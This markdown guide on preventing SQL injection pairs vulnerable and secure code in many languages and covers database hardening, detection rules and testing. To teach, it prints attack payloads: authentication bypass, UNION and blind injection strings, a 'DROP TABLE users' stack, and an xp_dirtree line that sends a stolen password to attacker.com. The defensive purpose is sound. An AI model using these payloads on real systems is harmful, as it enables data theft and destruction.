

# SQL Injection: Prevention & Defense
> A comprehensive, production-grade reference for developers, security engineers, architects, and DBAs. Aligned with OWASP, NIST SSDF, and modern secure software development practices.

---

# 📑 Quick Navigation
| # | Section |
|---|---------|
| 1 | [Introduction](#-introduction) |
| 2 | [Understanding SQL Injection](#-understanding-sql-injection) |
| 3 | [History of SQL Injection](#-history-of-sql-injection) |
| 4 | [SQL Injection Fundamentals](#-sql-injection-fundamentals) |
| 5 | [Why SQL Injection Happens](#-why-sql-injection-happens) |
| 6 | [Types of SQL Injection](#-types-of-sql-injection) |
| 7 | [Attack Lifecycle](#-attack-lifecycle) |
| 8 | [Real-World Code Examples](#-real-world-code-examples) |
| 9 | [Database-Specific Defenses](#-database-specific-defenses) |
| 10 | [Parameterized Queries](#-parameterized-queries) |
| 11 | [Prepared Statements](#-prepared-statements) |
| 12 | [ORMs and SQL Injection](#-orms-and-sql-injection) |
| 13 | [Input Validation](#-input-validation) |
| 14 | [Least Privilege](#-least-privilege) |
| 15 | [Secure Database Architecture](#-secure-database-architecture) |
| 16 | [Secure Coding Practices](#-secure-coding-practices) |
| 17 | [Detection](#-detection) |
| 18 | [Testing for SQL Injection](#-testing-for-sql-injection) |
| 19 | [Prevention Checklist](#-prevention-checklist) |
| 20 | [Common Mistakes](#-common-mistakes) |
| 21 | [Performance Considerations](#-performance-considerations) |
| 22 | [SQLi vs Other Injection Attacks](#-sqli-vs-other-injection-attacks) |
| 23 | [Case Studies](#-case-studies) |
| 24 | [OWASP Cheat Sheet Summary](#-owasp-cheat-sheet-summary) |
| 25 | [Secure Development Workflow](#-secure-development-workflow) |
| 26 | [Best Practices](#-best-practices) |
| 27 | [FAQ](#-faq) |
| 28 | [Glossary](#-glossary) |
| 29 | [Resources](#-resources) |

---

# 🧭 Introduction
## What is SQL Injection?
**SQL Injection (SQLi)** is a code injection vulnerability that occurs when an attacker can insert or manipulate SQL statements within an application's input, causing those statements to be executed by the backend database. It exploits the fact that SQL is a **declarative language interpreted at runtime** — if untrusted data is concatenated into a query string, the database cannot distinguish between the developer's intended query structure and attacker-controlled data.

At its core, SQLi is a **trust boundary violation**. The application is the boundary between untrusted input and trusted query logic. When that boundary is broken — usually through string concatenation — the attacker effectively writes the query alongside the developer.
```sql
-- Intended query
SELECT id, name FROM users WHERE id = 105;

-- Attacker-controlled equivalent
SELECT id, name FROM users WHERE id = 105 OR 1=1;
```
## Why It Remains Dangerous
Despite being publicly documented since **1998** (Phrack 54), SQL Injection consistently appears in:

**OWASP Top 10 (2021)** — A03:2021 – Injection
**CWE-89** in the CWE Top 25
**MITRE ATT&CK T1190** – Exploit Public-Facing Application

It remains the #1 cause of large-scale data breaches because:
1. **It's easy to exploit** — automated tools find and weaponize it in minutes.
2. **It's easy to introduce** — one missed parameterization is enough.
3. **It's devastating** — direct access to sensitive data and sometimes the OS.
4. **It scales** — one vulnerability can expose entire databases.
5. **Legacy code is everywhere** — decades of unparameterized queries persist.

## Real-World Impact
| Impact Area | Consequence |
|-------------|-------------|
| 💰 **Financial** | Average breach cost: $4.45M (IBM 2023); regulatory fines under GDPR, HIPAA, PCI-DSS |
| 📊 **Data Loss** | Theft of PII, credentials, credit cards, IP, trade secrets |
| ⚖️ **Legal** | Class-action lawsuits, regulatory enforcement, loss of certifications |
| 🏢 **Reputational** | Customer churn, brand damage, loss of trust |
| 🔧 **Operational** | Ransomware deployment, defacement, full system takeover |
| 📉 **Compliance** | PCI-DSS, SOX, HIPAA, ISO 27001 failures |

> **💡 Key Takeaways**
    * SQLi is a trust boundary violation, not just a "bug"
    * It has been the #1 web vulnerability for over two decades
    * The cost of prevention is trivial compared to the cost of a breach
    **⚠️ Common Pitfalls**
    * Assuming ORMs or frameworks make you immune
    * Treating SQLi as a "legacy problem"
    **📚 Recommended Reading**
    * OWASP Top 10: https://owasp.org/Top10/

---

# 🔍 Understanding SQL Injection
## The Foundation: How SQL Works
<p align="center">
  
</p>

## Where the Injection Happens
<p align="center">
  
</p>

The critical moment is **query construction**. When an application builds SQL by concatenating strings, the database sees one continuous string — it has no way to know which parts came from the developer and which came from the user.
## The Three Properties of SQLi
1. **Trust violation** — untrusted data reaches the parser
2. **Parser leniency** — SQL syntax allows arbitrary logic injection
3. **Out-of-band effects** — query results return to the application
## Anatomy of a Vulnerable Statement
```sql
-- DEVELOPER INTENDED
SELECT * FROM accounts WHERE username = '$user' AND password = '$pass';

-- ATTACKER INPUT
user  = ' OR '1'='1
pass  = anything

-- RESULTING QUERY
SELECT * FROM accounts WHERE username = '' OR '1'='1' AND password = 'anything';
-- Returns the first account, often admin.
```
> 💡 Key Takeaways
    * SQLi happens at the query construction stage
    * The database parses everything as one opaque string
    * Concatenation is the enemy; parameterization is the cure

    ⚠️ Common Pitfalls

    * Believing "the database will reject malformed SQL" — it won't, because injected SQL is valid
    * Trusting client-side validation as a defense

---

# 📜 History of SQL Injection
| Year | Event |
|------|-------|
| 1998 | First public SQLi discussion in Phrack Magazine 54 ("NT Web Technology Vulnerabilities") |
| 1999 | "SQL Injection" article published by Allaire (ColdFusion vendor) |
| 2003 | First major automated SQLi tools emerge |
| 2008 | **Heartland Payment Systems** — 130M card numbers stolen via SQLi |
| 2011 | **Sony Pictures / PSN** — 77M accounts compromised |
| 2017 | **Equifax** — 147M records; root cause was unpatched Apache Struts with SQLi risk |
| 2018 | OWASP merges Injection into broader categories |
| 2021 | OWASP Top 10 lists A03:2021 – Injection (SQLi still a major component) |
| 2023+ | Modern frameworks reduce *new* SQLi, but legacy systems remain vulnerable |
## Evolution of Attack & Defense
<p align="center">
  
</p>

> 💡 Key Takeaways

    * SQLi is older than most developers currently coding
    * Defenses exist; the problem is adoption in legacy code

    📚 Recommended Reading

    * Phrack 54: http://phrack.org/issues/54/8.html

---

# 🧪 SQL Injection Fundamentals
## Authentication Queries
```sql
-- Vulnerable
SELECT * FROM users WHERE username = '$user' AND password = '$pass';

-- Secure
SELECT * FROM users WHERE username = ? AND password = ?;
-- Plus: never store plaintext passwords — use bcrypt/argon2/scrypt
```
## Search Queries
```sql
-- Vulnerable
SELECT id, title FROM products WHERE name LIKE '%$search%';

-- Secure
SELECT id, title FROM products WHERE name LIKE ?;
-- Application passes: "%" + sanitize(search) + "%"
```
## INSERT Statements
```sql
-- Vulnerable
INSERT INTO logs (msg) VALUES ('$message');

-- Secure
INSERT INTO logs (msg) VALUES (?);
```
## UPDATE Statements
```sql
-- Vulnerable
UPDATE users SET email = '$email' WHERE id = $id;

-- Secure
UPDATE users SET email = ? WHERE id = ?;
```
## DELETE Statements
```sql
-- Vulnerable
DELETE FROM sessions WHERE id = '$sid';

-- Secure
DELETE FROM sessions WHERE id = ?;
```
## Stored Procedures
```sql
-- Vulnerable stored proc (still vulnerable to SQLi)
CREATE PROCEDURE get_user @id NVARCHAR(50) AS
BEGIN
    EXEC('SELECT * FROM users WHERE id = ''' + @id + '''');
END
GO

-- Secure stored proc
CREATE PROCEDURE get_user @id INT AS
BEGIN
    SELECT * FROM users WHERE id = @id;
END
GO
```
> ⚠️ Important: Stored procedures are not inherently safe. They are only safe when they themselves use parameterization.

## Dynamic SQL
Dynamic SQL is generated at runtime — it is where most SQLi vulnerabilities live. Always parameterize dynamic SQL.
## ORM-Generated SQL
ORMs (Prisma, Hibernate, SQLAlchemy, etc.) generate parameterized SQL automatically for safe query methods. However, they expose raw query APIs that **bypass this protection**.
## Prepared Statements
Prepared statements pre-compile the SQL structure; parameters are bound separately and never re-parsed as SQL. They are the **primary defense** against SQLi.
> 💡 Key Takeaways

    * Every SQL operation type can be vulnerable
    * Stored procedures are not automatically safe
    * ORMs help but can be bypassed via raw query APIs

    ⚠️ Common Pitfalls

    * Assuming stored procedures = safe
    * Using ORM safe methods 95% of the time and raw queries 5%

---

# 💥 Why SQL Injection Happens
## Root Causes
| Cause | Description |
|-------|-------------|
| 🔗 **String concatenation** | Building queries via `"SELECT * FROM x WHERE id = '" + id + "'"` |
| 🔀 **String interpolation** | Template literals in JS/Python/Ruby used to embed values |
| 📦 **Dynamic identifiers** | Sorting columns, table names, LIMIT/OFFSET cannot be parameterized in some DBs |
| 🕰️ **Legacy code** | Pre-2010 codebases using ADODB, mysql_query, JDBC Statement |
| 🧩 **Framework misuse** | Raw query APIs in ORMs |
| 🧠 **Second-order injection** | Data stored safely, retrieved unsafely |
| 🛡️ **Escaping instead of binding** | Manual escaping is incomplete |
## Second-Order SQL Injection
<p align="center">
  
</p>

The first insert is parameterized (safe). The second select concatenates the stored username directly into a query — a classic second-order vulnerability.

## Why Escaping Fails
| Reason | Detail |
|--------|--------|
| Context-dependent | SQL escaping rules differ inside strings, identifiers, integers, LIKE clauses |
| Character set issues | Unicode normalization, multi-byte chars break naive escaping |
| Database-specific | `'` for SQL, but `\` for MySQL, `''` for SQL Server, etc. |
| Bypassable | Numeric contexts never need quotes — `id=1 OR 1=1` |
> 💡 Key Takeaways

    * String concatenation is the #1 root cause
    * Dynamic identifiers (column/table names) are a special challenge
    * Second-order SQLi proves that stored data is still untrusted
    * Escaping is not a primary defense

    ⚠️ Common Pitfalls

    * Using mysqli_real_escape_string as a silver bullet
    * Sanitizing data at write time but not at read time

---

# 🎯 Types of SQL Injection
## Classification Overview
<p align="center">
  
</p>

## In-Band SQLi (Classic)
The attacker uses the same channel to inject and receive results.
### Error-Based
```SQL
' AND 1=CONVERT(int, (SELECT TOP 1 table_name FROM information_schema.tables))--
```
Errors reveal data in the error message.
### Union-Based
```sql
' UNION SELECT username, password FROM users--
```
Appends additional rows to the result set.
## Blind SQLi
No direct data is returned; the attacker infers information.
### Boolean-Based
```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a'--
```
Page behaves differently for true vs. false conditions.
### Time-Based
```sql
' OR IF(1=1, SLEEP(5), 0)--
```
MySQL-specific delay-based inference.
## Out-of-Band SQLi
Data is exfiltrated via a different channel (DNS, HTTP):
```sql
'; EXEC xp_dirtree '//attacker.com/' + (SELECT TOP 1 password FROM users)--
```
(SQL Server xp_dirtree triggers DNS resolution.)
## Stacked Queries
Multiple statements separated by ;:
```sql
'; DROP TABLE users;--
```
Not supported by all DBs (PostgreSQL allows via certain drivers; SQLite/MySQL JDBC drivers historically did).
## Second-Order SQLi
Already covered above.
## Stored Procedure Injection
SQLi within stored procedure logic, typically through dynamic SQL inside the proc.
## ORM Injection
Raw query APIs that allow string concatenation:
```python
# Django — vulnerable raw query
User.objects.raw(f"SELECT * FROM users WHERE name = '{name}'")
```
## NoSQL Injection (Comparison)
```javascript
// MongoDB — operator injection
db.users.find({ username: req.body.username, password: req.body.password })
// Attacker sends: {"username":"admin","password":{"$ne":""}}
```
Different language, same principle: untrusted input shapes the query structure.
## HQL / JPQL Injection
```java
// Vulnerable
Query q = session.createQuery("FROM User WHERE name = '" + name + "'");

// Secure
Query q = session.createQuery("FROM User WHERE name = :name");
q.setParameter("name", name);
```
## JSON SQL Injection
Modern apps pass JSON to SQL functions like JSON_VALUE — JSON structure can be manipulated to alter query logic.
## GraphQL-Related SQL Injection
GraphQL resolvers often construct SQL from nested queries. If a resolver uses string concatenation, SQLi is possible even though GraphQL is the transport.
## XPath / LDAP / XML Injection (Comparison)
| Type | Target | Example Payload |
|------|--------|-----------------|
| XPath | XML documents | `' or '1'='1` |
| LDAP | Directory services | `*)(uid=*))(|(uid=*` |
| XML | XML processors | Billion laughs (XXE) |

> 💡 Key Takeaways

    * There are at least 15 distinct SQLi variants
    * Blind SQLi is slower but bypasses error suppression
    * Out-of-band requires network egress but is highly reliable
    * ORM raw queries reintroduce classic SQLi
    ⚠️ Common Pitfalls

    * Only defending against "classic" SQLi
    * Disabling verbose error messages but ignoring blind techniques

---

# ⚔️ SQL Injection Attack Lifecycle
<p align="center">
  
</p>

## Stage-by-Stage (Defensive View)
| Stage | Attacker Action | Defender Visibility |
|-------|-----------------|---------------------|
| Recon | Probe for query parameters, error messages | WAF logs, anomaly detection |
| Entry | Send test payload (`'`, `"`, `1=1`) | Input validation logs |
| Fingerprint | Identify DB engine via error messages | Database error logs |
| Confirm | Establish Boolean/time-based oracle | Query timing metrics |
| Enumerate | Query `information_schema` | Privileged query audit |
| Exfiltrate | Bulk dump data | DLP, traffic analysis |
| Escalate | `xp_cmdshell`, UDFs | OS-level audit |
| Persist | Create backdoor accounts | Account creation alerts |
| Cleanup | Delete logs | Log integrity monitoring |
> 💡 Key Takeaways

    * Defense must cover the entire lifecycle, not just injection
    * Detection at any stage can stop the attack
    ⚠️ Common Pitfalls

    * Logging only application errors, not database errors

---

# 💻 Real-World Code Examples
> ⚠️ All vulnerable examples are shown for educational purposes only. Never deploy vulnerable code.

## PHP (PDO)
```php
// ❌ Vulnerable
$id = $_GET['id'];
$result = mysqli_query($conn, "SELECT * FROM users WHERE id = $id");

// ✅ Secure
$stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?");
$stmt->execute([$id]);
$user = $stmt->fetch();
```
## Node.js (Express + mysql2)
```javascript
// ❌ Vulnerable
const id = req.query.id;
db.query(`SELECT * FROM users WHERE id = ${id}`, callback);

// ✅ Secure
db.query("SELECT * FROM users WHERE id = ?", [id], callback);
```
## Python (Flask)
```python
# ❌ Vulnerable
cursor.execute(f"SELECT * FROM users WHERE id = '{user_id}'")

# ✅ Secure
cursor.execute("SELECT * FROM users WHERE id = %s", (user_id,))
```
## Python (FastAPI + SQLAlchemy)
```python
# ❌ Vulnerable
db.execute(text(f"SELECT * FROM users WHERE email = '{email}'"))

# ✅ Secure
stmt = select(User).where(User.email == email)
db.execute(stmt)
```
## Python (Django)
```python
# ❌ Vulnerable
User.objects.raw(f"SELECT * FROM users WHERE name = '{name}'")

# ✅ Secure
User.objects.filter(name=name)
# Or with raw:
User.objects.raw("SELECT * FROM users WHERE name = %s", [name])
```
## Java (Spring Boot + JPA)
```java
// ❌ Vulnerable
@Query("SELECT u FROM User u WHERE u.name = '" + name + "'")
List<User> findByName(String name);

// ✅ Secure
@Query("SELECT u FROM User u WHERE u.name = :name")
List<User> findByName(@Param("name") String name);
```
## C# (ASP.NET + EF Core)
```csharp
// ❌ Vulnerable
var users = db.Users.FromSqlRaw($"SELECT * FROM Users WHERE Email = '{email}'").ToList();

// ✅ Secure
var users = db.Users.FromSqlInterpolated($"SELECT * FROM Users WHERE Email = {email}").ToList();
// Or LINQ:
var users = db.Users.Where(u => u.Email == email).ToList();
```
## Go (database/sql)
```go
// ❌ Vulnerable
db.Query("SELECT * FROM users WHERE id = " + id)

// ✅ Secure
db.Query("SELECT * FROM users WHERE id = $1", id)
```
## Rust (sqlx)
```rust
// ❌ Vulnerable
sqlx::query(&format!("SELECT * FROM users WHERE id = {}", id)).fetch_all(&pool).await?;

// ✅ Secure
sqlx::query("SELECT * FROM users WHERE id = $1")
    .bind(id)
    .fetch_all(&pool)
    .await?;
```
## Next.js (API Routes)
```javascript
// ❌ Vulnerable
import { sql } from '@vercel/postgres';
export async function GET(req) {
  const { searchParams } = new URL(req.url);
  const id = searchParams.get('id');
  const { rows } = await sql`SELECT * FROM users WHERE id = ${id}`;
  return Response.json(rows);
}

// ✅ Secure — note: tagged template literal `sql` uses parameterization
// @vercel/postgres sql tag is parameterized; this is safe.
// However, avoid plain template literals into query strings.
```
>  💡 Key Takeaways

    * Every language has safe parameterization APIs
    * The vulnerable pattern is always string concatenation
    * ORMs + parameterized raw queries = strongest combination
    ⚠️ Common Pitfalls

    * Mixing safe and unsafe code in the same function
    * Using ORM safe methods but building raw SQL for "complex" queries

---

# 🗄️ Database-Specific Defenses
## MySQL / MariaDB
```sql
-- Prepared statement syntax
PREPARE stmt FROM 'SELECT * FROM users WHERE id = ?';
SET @id = 105;
EXECUTE stmt USING @id;
DEALLOCATE PREPARE stmt;
```
### Defense config:
* Disable LOAD_FILE, INTO OUTFILE for application users
* Set sql_mode = STRICT_ALL_TABLES
* Use least-privilege users (no SUPER, no FILE)
## PostgreSQL
```sql
-- Prepared statement
PREPARE get_user (int) AS SELECT * FROM users WHERE id = $1;
EXECUTE get_user(105);
```
### Defense config:
* Use psql \set for safe variables
* Restrict pg_read_server_files, pg_write_server_files
* Use Row-Level Security (RLS)
## SQLite
```PYTHON
import sqlite3
conn = sqlite3.connect('app.db')
cur = conn.cursor()
cur.execute("SELECT * FROM users WHERE id = ?", (user_id,))
```
## Defense config:

* Always parameterize (sqlite3 Python driver supports ?, :name, @name)
* Avoid loading extensions in production
## Microsoft SQL Server
```sql
-- sp_executesql (parameterized)
DECLARE @id INT = 105;
EXEC sp_executesql N'SELECT * FROM users WHERE id = @id', N'@id INT', @id = @id;
```
### Defense config:

* Disable xp_cmdshell
* Restrict OPENROWSET, OPENDATASOURCE
* Enable SQL Server Audit
* Use contained databases with strong passwords
## Oracle
```sql
-- DBMS_SQL or EXECUTE IMMEDIATE with binds
EXECUTE IMMEDIATE 'SELECT * FROM users WHERE id = :id' USING user_id;
```
### Defense config:

* Revoke unnecessary privileges from PUBLIC
* Use Database Vault for privileged account control
* Audit SYS operations
## Feature Comparison
| Feature | MySQL | PostgreSQL | SQL Server | Oracle | SQLite |
|---------|-------|------------|------------|--------|--------|
| Native prepared stmts | ✅ | ✅ | ✅ | ✅ | ✅ |
| User-defined functions | ✅ | ✅ | ✅ | ✅ | ✅ |
| Row-Level Security | ❌ | ✅ | ✅ | ✅ | ❌ |
| Native JSON operators | ✅ | ✅ | ✅ | ✅ | ✅ |
| File read functions | `LOAD_FILE` | `pg_read_file` | `OPENROWSET` | `UTL_FILE` | `readfile` (ext) |
> 💡 Key Takeaways

    * Every major DB supports parameterized queries
    * DB-level configuration is part of defense in depth
    * Restrict dangerous built-ins at the database user level
    ⚠️ Common Pitfalls

    * Connecting applications as root / sa / postgres

---

# 🔒 Parameterized Queries
## Why They Work
<p align="center">
  
</p>

The database receives the **SQL structure** and the **parameter values** as separate inputs. Values are typed (string, int, etc.) and **cannot alter the parse tree**.
## Examples in Major Languages
See the Real-World Code Examples section above.

| Element | Reason | Mitigation |
|---------|--------|------------|
| Table names | Identifiers, not values | Allowlist mapping |
| Column names (sort/filter) | Same | Allowlist mapping |
| `LIMIT` / `OFFSET` | Varies by DB | Cast to integer after validation |
| `ORDER BY` direction | Same | Enum check |
| Stored proc names | Dynamic execution | Allowlist mapping |
```python
# Allowlist for dynamic table/column names
ALLOWED_SORT_COLUMNS = {"name", "email", "created_at"}
if sort_by not in ALLOWED_SORT_COLUMNS:
    raise ValueError("Invalid sort field")    
```
> 💡 Key Takeaways

    * Parameterization separates structure from data
    * Values cannot alter query structure when bound
    * Identifiers need allowlist mapping
    ⚠️ Common Pitfalls

    * Believing parameterization slows queries (it can actually improve   performance via plan caching)

---

# 📋 Prepared Statements
## Internal Mechanism
<p align="center">
  
</p>

## Advantages
| Advantage | Explanation |
|-----------|-------------|
| 🛡️ Security | SQL structure cannot be altered by parameters |
| ⚡ Performance | Plan cached and reused |
| 🔁 Reuse | Same statement executed multiple times with different parameters |
| 📊 Stability | Predictable execution plans |
## Limitations
* Not all SQL constructs can be prepared (some DDL)
* Some legacy drivers don't support them properly
* Dynamic table/column names still require allowlists
> 💡 Key Takeaways

    * Prepared statements = parse once, bind many
    * They're both a security AND a performance feature
    ⚠️ Common Pitfalls

    * Recreating prepared statements on every request (defeats caching)

---

# 🏗️ ORMs and SQL Injection
## ORM Safety Matrix
| ORM | Safe Methods | Raw Query API | Risk |
|-----|--------------|---------------|------|
| **Prisma** | `findMany`, `findUnique` | `$queryRaw` | Low if raw queries use parameters |
| **TypeORM** | `find`, `findOne` | `query` | Medium — manual parameter binding required |
| **Sequelize** | `findAll`, `findOne` | `sequelize.query` | Medium — uses replacement if careful |
| **Drizzle** | Type-safe queries | `sql` template | Low — template tag is parameterized |
| **Hibernate** | `Criteria API`, HQL w/ params | `createNativeQuery` | Medium |
| **Entity Framework** | LINQ | `FromSqlRaw` | Medium — must use parameters |
| **SQLAlchemy** | ORM queries | `text()` | Medium — use bound params |
| **Django ORM** | `filter`, `get` | `raw()`, `extra()` | Medium — `extra()` is dangerous |
| **Laravel Eloquent** | Builder methods | `DB::raw`, `DB::statement` | High if misused |
## Where ORMs Fail
```python
# Django — extra() is a footgun
User.objects.extra(where=[f"name = '{name}'"])
```
```javascript
// Sequelize — literal interpolation
const users = await User.findAll({
  where: sequelize.literal(`name = '${name}'`)
});
```
> 💡 Key Takeaways

    * ORMs reduce risk but don't eliminate it
    * Raw query APIs require the same discipline as plain SQL
    * Always review ORM queries in code review
    ⚠️ Common Pitfalls

    * "We use Prisma/Hibernate so we can't have SQLi" — false

---

# ✅ Input Validation
## | Layer | Purpose | Effectiveness |
|-------|---------|---------------|
| **Allowlist (whitelist)** | Reject anything not explicitly allowed | ⭐⭐⭐⭐⭐ |
| **Blocklist (blacklist)** | Reject known bad patterns | ⭐⭐ |
| **Normalization** | Convert to canonical form before validation | ⭐⭐⭐⭐ |
| **Canonicalization** | Resolve Unicode, URL encoding, etc. | ⭐⭐⭐⭐ |
| **Escaping** | Encode special chars | ⭐⭐ |

## Allowlist Examples
```python
# Email validation
import re
if not re.match(r"^[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$", email):
    raise ValueError("Invalid email")

# ID validation
if not user_id.isdigit():
    raise ValueError("Invalid ID")

# Enum validation
if sort_order not in {"asc", "desc"}:
    raise ValueError("Invalid sort order")
```
## Why Escaping is Not a Complete Defense
* Context-specific escape rules
* Character encoding edge cases
* Database-specific syntax
* Doesn't help in numeric contexts
* Doesn't protect against second-order SQLi
> 💡 Key Takeaways

    * Allowlist > blocklist > escaping
    * Validate before parameterization, not instead of it
    * Normalize before validation to defeat encoding tricks
    ⚠️ Common Pitfalls

    * Using blocklists (bypassable in seconds)
    * Validating only at the client

---

# 🛡️ Least Privilege
## Principle
> Give every database user only the minimum permissions required to do its job.
## Database Account Tiers
| Account | Purpose | Privileges |
|---------|---------|------------|
| `app_readonly` | Reports, analytics | `SELECT` only |
| `app_writer` | CRUD operations | `SELECT, INSERT, UPDATE, DELETE` |
| `app_admin` | Migrations | DDL only during deployment |
| `migration_user` | Schema changes | Time-limited DDL |
| `monitoring_user` | Health checks | `SELECT` on system tables |
## PostgreSQL Example
```sql
CREATE ROLE app_readonly LOGIN PASSWORD 'strong_random_pw';
GRANT CONNECT ON DATABASE app TO app_readonly;
GRANT USAGE ON SCHEMA public TO app_readonly;
GRANT SELECT ON ALL TABLES IN SCHEMA public TO app_readonly;

CREATE ROLE app_writer LOGIN PASSWORD 'strong_random_pw';
GRANT CONNECT ON DATABASE app TO app_writer;
GRANT USAGE ON SCHEMA public TO app_writer;
GRANT SELECT, INSERT, UPDATE, DELETE ON ALL TABLES IN SCHEMA public TO app_writer;

-- Revoke dangerous defaults
REVOKE ALL ON DATABASE postgres FROM PUBLIC;
```
## MySQL Example
```sql
CREATE USER 'app_writer'@'%' IDENTIFIED BY 'strong_random_pw';
GRANT SELECT, INSERT, UPDATE, DELETE ON app.* TO 'app_writer'@'%';
FLUSH PRIVILEGES;
```
> 💡 Key Takeaways

    * Use separate accounts for read, write, and admin
    * Application accounts should never own schema
    * Service accounts should not be human-usable
    ⚠️ Common Pitfalls

    * Application connecting as root / sa / postgres
    * Granting GRANT OPTION to app users

---

# 🏛️ Secure Database Architecture
<p align="center">
  
</p>

## Components
| Component | Purpose |
|-----------|---------|
| **WAF** | Filter malicious HTTP payloads |
| **Connection Pool** | Reuse DB connections (PgBouncer, ProxySQL) |
| **Secrets Manager** | Vault, AWS Secrets Manager, GCP Secret Manager |
| **Network Segmentation** | DB not directly reachable from internet |
| **Encryption** | TLS in transit, TDE at rest |
| **Zero Trust** | Authenticate every connection, even internal |
## Secrets Management
```yaml
# .env (development only — never commit)
DB_HOST=db.internal
DB_USER=app_writer
DB_PASSWORD=<from-secrets-manager>
```
```python
# Production — fetch from Vault
import hvac
client = hvac.Client(url='https://vault.internal')
secret = client.secrets.kv.read_secret_version(path='app/db')
db_password = secret['data']['data']['password']
```
> 💡 Key Takeaways

    * Never embed credentials in code
    * Use TLS for all DB connections
    * Segment networks so DBs aren't internet-reachable
    * Rotate credentials regularly
    ⚠️ Common Pitfalls

    * Storing DB passwords in Git repos
    * Allowing DB access from 0.0.0.0/0

---

# 🧑‍💻 Secure Coding Practices
## OWASP Recommendations
1. **Use parameterized queries** — always
2. **Use stored procedures carefully** — no dynamic SQL inside them
3. **Use allowlist input validation** — at the boundary
4. **Escape as a last resort** — when parameterization isn't possible
5. **Use LIMIT** — prevent mass data exfiltration
6. **Use ORMs with discipline** — review raw query usage
7. **Disable verbose errors** — in production
8. **Apply least privilege** — to database accounts
9. **Use WAFs** — as defense in depth
10. **Log and monitor** — for detection
## Secure SDLC
<p align="center">
  
</p>

## Code Review Checklist

- [ ] All SQL uses parameterized queries
- [ ] No raw query APIs called with concatenation
- [ ] Dynamic identifiers use allowlists
- [ ] Database accounts follow least privilege
- [ ] Errors are logged, not exposed
- [ ] LIMIT is used on all queries
- [ ] No ORM 'extra()', 'raw()' with concatenation
> 💡 Key Takeaways

    * SQLi prevention is a process, not just code
    * Code review catches what linters miss
    * Threat modeling finds risks before code exists
    ⚠️ Common Pitfalls

    * Skipping code review on "small fixes"

---

# 🔍 Detection
## Detection Layers
| Layer | Tool | Signal |
|-------|------|--------|
| **Application** | Custom logging | Suspicious input patterns |
| **WAF** | ModSecurity, Cloudflare | SQL keywords in input |
| **Database** | Audit logs | Schema enumeration queries |
| **Network** | IDS/IPS | Unusual DB traffic |
| **SIEM** | Splunk, Elastic | Correlated alerts |
| **Runtime** | RASP | Query interception |
## Database Audit (PostgreSQL)
```sql
-- Enable audit logging
ALTER SYSTEM SET log_statement = 'all';
ALTER SYSTEM SET log_min_duration_statement = 0;
SELECT pg_reload_conf();

-- Watch for suspicious queries
SELECT query, calls, mean_exec_time
FROM pg_stat_statements
ORDER BY mean_exec_time DESC
LIMIT 20;
```
## Anomaly Detection Signals
* Sudden increase in 500 errors
Unusual 'information_schema' queries
Queries with 'UNION SELECT' in app logs
Failed login bursts followed by success
Large data downloads outside business hours

## SIEM Rule Example
```text
Title: Possible SQL Injection Attempt
Query: 
  http_request.uri CONTAINS "' OR '1'='1" OR
  http_request.uri CONTAINS "UNION SELECT" OR
  http_request.uri CONTAINS "information_schema"
Severity: High
Action: Block + Alert
```
> 💡 Key Takeaways

    * Detection is the safety net when prevention fails
    * Log at the database, application, and WAF layers
    * Correlate with SIEM for high-fidelity alerts
    ⚠️ Common Pitfalls

    * Logging only successful queries (misses attack attempts)

---

# 🧪 Testing for SQL Injection
## Testing Layers
| Type | Tool | When |
|------|------|------|
| **SAST** | SonarQube, Semgrep, CodeQL | In CI on every commit |
| **DAST** | OWASP ZAP, Burp Suite | Nightly / pre-release |
| **IAST** | Contrast, Sqreen | In production-like environments |
| **Pen Test** | Manual | Annually / pre-launch |
| **Dependency Scan** | Snyk, npm audit, Dependabot | Daily |
## SAST Rule Example (Semgrep)
```yaml
rules:
  - id: sql-injection
    patterns:
      - pattern: $DB.query(f"...")
      - pattern: $DB.query("..." + $VAR)
    message: Possible SQL injection
    languages: [javascript, python]
    severity: ERROR
```
## Manual Testing (Authorized Only)
> ⚠️ Only test systems you own or have written authorization to test.
| Test | Safe Payload |
|------|--------------|
| Boolean | `?id=1' AND '1'='1` vs `?id=1' AND '1'='2` |
| Time-based | `?id=1' OR SLEEP(5)--` |
| Union | `?id=1' UNION SELECT NULL,NULL--` |
| Error | `?id=1'` (observe error message) |
> 💡 Key Takeaways

    * Use automated scanners in CI
    * Combine SAST + DAST for coverage
    * Annual pen tests find what automation misses
    ⚠️ Common Pitfalls

    * Relying solely on scanners (false negatives)
    * Skipping authenticated DAST scans

---

# ✅ Prevention Checklist
## 👨‍💻 Developer Checklist
- [ ] Every SQL query uses parameterized queries or ORM safe methods
- [ ] Dynamic identifiers validated against allowlists
- [ ] No string concatenation in SQL
- [ ] ORM raw queries use parameter binding
- [ ] Input validated at the boundary
- [ ] Errors caught and sanitized before display
- [ ] Secrets loaded from environment / secrets manager
## 👀 Code Reviewer Checklist
- [ ] All queries reviewed for parameterization
- [ ] ORM raw query usage justified and safe
- [ ] Database connection uses least-privilege account
- [ ] No credentials in code or logs
- [ ] Tests include SQLi test cases for critical inputs
## 🚀 DevOps Checklist
- [ ] DB not exposed to internet
- [ ] TLS enforced on DB connections
- [ ] Secrets stored in vault, not env files
- [ ] Database audit logging enabled
- [ ] WAF deployed in front of app
- [ ] Backups encrypted and tested
## 🛡️ Security Engineer Checklist
- [ ] SAST/DAST integrated in CI
